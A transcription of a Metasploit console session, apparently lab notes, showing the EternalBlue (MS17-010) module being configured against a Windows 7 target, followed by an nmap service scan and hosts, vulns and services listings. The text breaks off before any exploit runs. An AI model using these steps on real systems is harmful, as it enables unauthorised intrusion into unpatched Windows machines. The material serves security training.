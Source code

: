     
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs
    
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.216.126
    RHOSTS => 10.10.216.126
    
    ---------Variablen Global setzen!-------
    msf5 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.216.126
    RHOSTS => 10.10.216.126
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > db_nmap -sV 10.10.120.90
    [*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-05 14:02 EST
    [*] Nmap: Nmap scan report for 10.10.120.90
    [*] Nmap: Host is up (0.035s latency).
    [*] Nmap: Not shown: 988 closed ports
    [*] Nmap: PORT      STATE SERVICE            VERSION
    [*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
    [*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    [*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    [*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
    [*] Nmap: 5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    [*] Nmap: 8000/tcp  open  http               Icecast streaming media server
    [*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
    [*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
    [*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
    [*] Nmap: 49158/tcp open  msrpc              Microsoft Windows RPC
    [*] Nmap: 49159/tcp open  msrpc              Microsoft Windows RPC
    [*] Nmap: 49160/tcp open  msrpc              Microsoft Windows RPC
    [*] Nmap: Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
    [*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    [*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 62.65 seconds
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > hosts

    Hosts
    =====
    
    address       mac  name  os_name  os_flavor  os_sp  purpose  info  comments
    -------       ---  ----  -------  ---------  -----  -------  ----  --------
    10.10.120.90             Unknown                    device         
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > vulns
    
    Vulnerabilities
    ===============
    
    Timestamp  Host  Name  References
    ---------  ----  ----  ----------

    msf5 exploit(windows/smb/ms17_010_eternalblue) > services
    Services
    ========
    